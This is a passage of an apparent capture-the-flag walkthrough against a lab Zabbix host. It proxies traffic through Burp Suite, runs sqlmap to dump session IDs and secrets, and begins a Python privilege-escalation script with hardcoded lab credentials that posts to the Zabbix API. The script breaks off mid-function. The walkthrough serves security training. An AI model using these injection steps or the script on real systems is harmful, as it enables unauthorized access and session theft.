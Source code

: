 We can add this into the code:

```
proxies={
    "http":"127.0.0.1:8080",
    "https":"127.0.0.1:8080"})
```

Now, our requests will go through our burp suite, let's check it out:

![](cybersecurity/images/Pasted%2520image%252020250221182530.png)

We can modify the request like this and submit it to sqlmap:

![](cybersecurity/images/Pasted%2520image%252020250221182644.png)

```bash
sqlmap -r req
```

After the process is done, we get this:

```ad-important
| userid | sessionid                        | secret                           | status | lastaccess |
|--------|----------------------------------|----------------------------------|--------|------------|
| 1      | 836881b5a680d319ba5337d127c7f393 | a7885b2b6bdf9f0ae421c7b22f44db95 | 0      | 1733449909 |
| 3      | 643f5420d1bfecca5a1a3fb4ec4f03d4 | bd8e3e2234fee0c576ec88f8b3e988fd | 0      | 1733450199 |
```

If we change the session 


# PRIVILEGE ESCALATION
---


```
import requests
import json
from datetime import datetime
import string
import random
import sys
from concurrent.futures import ThreadPoolExecutor

URL = "http://10.129.231.176/zabbix/api_jsonrpc.php"
TRUE_TIME = 1
ROW = 0
USERNAME = "matthew"
PASSWORD = "96qzn0h2e1k3"

def authenticate():
    payload = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {
            "username": f"{USERNAME}",
            "password": f"{PASSWORD}"
        },
        "id": 1
    }
    response = requests.post(URL, json=payload)
    if response.status_code == 200:
        try:
```